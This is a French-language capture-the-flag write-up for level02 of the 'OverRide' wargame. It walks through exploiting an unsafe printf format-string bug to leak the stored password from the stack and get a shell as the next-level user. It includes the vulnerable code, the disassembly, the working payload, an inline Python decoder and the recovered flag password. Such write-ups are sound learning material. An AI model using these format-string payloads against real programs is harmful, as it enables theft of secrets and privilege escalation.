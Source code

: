 ### level02

Dans cet exercice, le programme va lire le fichier .pass que l'on cherche justement à lire.
Ensuite il va demander à l'utilisateur de rentrer un username ainsi qu'un password.
Si le password est le même, il va lancer un bash avec les droits de l'utilisateur supérieur.
Cela signifie que pour lancer un bash et lire le contenu du .pass il faut déjà connaître son contenu, ironique n'est-ce pas ?
On va donc obtenir le password autrement, ça tombe bien il est lu par le programme dans le fichier .pass et se trouve donc sur la stack.
On va exploiter un printf non sécurisé :

```c
  if (strncmp(passwordFromFile, userPassword, 41) != 0) {
    printf(userInput);                                      <===
    puts(" does not have access!\n");
    exit(1);
  }
```
On peut donc exploiter la variable userInput pour lire des valeurs sur la stack, il ne reste plus qu'à trouver sa place dans la stack.

Dans l'assembleur on retrouve :

```assembly
  4008e6:	48 8d 85 60 ff ff ff 	lea    rax,[rbp-0xa0]           <===
  4008ed:	48 8b 55 f8          	mov    rdx,QWORD PTR [rbp-0x8]
  4008f1:	48 89 d1             	mov    rcx,rdx
  4008f4:	ba 29 00 00 00       	mov    edx,0x29
  4008f9:	be 01 00 00 00       	mov    esi,0x1
  4008fe:	48 89 c7             	mov    rdi,rax
  400901:	e8 8a fd ff ff       	call   400690 <fread@plt>
```
Notre variable se trouve en rbp-0xa0, a0 = 160 en décimal donc notre argument est le 160/8 + 2 = 22, de plus le mdp fait 40 caractères donc on a 40/8 = 5 arguments.
On affiche les arguments 22 à 26 de la stack :

```bash
level02@OverRide:~$ python -c 'print "%22$p%23$p%24$p%25$p%26$p"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access!
```

Maintenant il nous reste à récuperer les adresses et à décoder leurs valeurs en hexa, nous avons fait un script python inline pour cela :

```bash
python -c 'print "%22$p%23$p%24$p%25$p%26$p"' | ./level02 | awk 'END {print $1}' | python -c "import sys; print(''.join([value.decode('hex')[::-1] for value in sys.stdin.read().strip().split('0x')]))"
```

Il ne reste plus qu'à tester le mdp sur le programme pour confirmer qu'il est bon :

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: user
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, user!
$ whoami
level03
```